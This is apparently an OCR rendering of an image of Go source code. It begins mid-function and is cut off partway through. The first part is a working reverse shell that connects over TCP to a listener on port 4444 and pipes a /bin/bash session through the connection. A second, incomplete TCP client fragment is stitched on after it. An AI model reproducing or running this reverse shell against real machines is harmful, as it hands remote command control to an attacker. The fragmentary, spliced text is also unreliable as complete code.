 ```bash
    cmd := exec.Command("/bin/bash")
    cmd.Stdin = connection
    cmd.Stdout = connection
    cmd.Stderr = connection

    cmd.Run()
}

func main() {
    var tcpPort string = "4444"
    connection, err := net.Dial("tcp", "127.0.0.1:" + tcpPort) //connect to the listener on another machine
    if err != nil {
        fmt.Println("An error occurred trying to connect to the target:", err)
        os.Exit(1)
    }
    fmt.Println("Successfully connected to the target")

    createShell(connection)
    /*for {
        checkConnection(connection)
    }*/
}

//constantly checks that the connection is still alive
/*func checkConnection(connection net.Conn) {
    buffer := make([]byte, 256)
    _,err := connection.Read(buffer)

    if err != nil {
        if err == io.EOF {
            fmt.Println("Connection was closed by remote host")
            connection.Close()
            os.Exit(3)
        } else {
            fmt.Println("An error occurred while checking the connection:", err)
            os.Exit(3)
        }
    }
}*/


package main

/* A simple tcp client. This is nowhere near functional or complete, I am simply keeping it here for now.*/

import (
    "fmt"
    "net"
    "bufio"
    "os"
)

func main() {
    var tcpPort string = "4444"
    connection, err := net.Dial("tcp", "127.0.0.1:" + tcpPort) //connect to the socket
    if err != nil {
        fmt.Println("An error occurred trying to connect to the target:", err)
    }

    for {
        //receive reply from server and print
```